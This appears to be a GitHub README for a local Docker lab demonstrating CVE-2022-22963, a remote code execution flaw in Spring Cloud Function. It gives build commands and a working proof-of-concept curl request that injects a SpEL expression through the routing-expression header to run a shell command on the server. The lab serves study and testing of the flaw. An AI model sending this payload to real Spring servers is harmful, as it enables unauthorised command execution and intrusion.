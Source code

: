 # Spring Cloud Function Vulnerability(CVE-2022-22963)

Vulnerable Application to [CVE-2022-22963](https://tanzu.vmware.com/security/cve-2022-22963)

# CVE-2022-22963 Exploit Demo

https://user-images.githubusercontent.com/57348147/161266562-51d025f0-54d4-488f-ac50-2317e29bfbdf.mp4

## Build

```bash
docker pull me2nuk/cves:2022-22963
docker run -it -p 8080:8080 --name=vuln me2nuk/cves:2022-22963
```

## POC

```bash
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
docker exec -it --user=root vuln ls /tmp
```

#### Reference

+ [https://tanzu.vmware.com/security/cve-2022-22963](https://tanzu.vmware.com/security/cve-2022-22963)
+ [https://github.com/hktalent/spring-spel-0day-poc/blob/main/README.md](https://github.com/hktalent/spring-spel-0day-poc/blob/main/README.md)
+ [https://github.com/spring-cloud/spring-cloud-function](https://github.com/spring-cloud/spring-cloud-function)
+ [https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)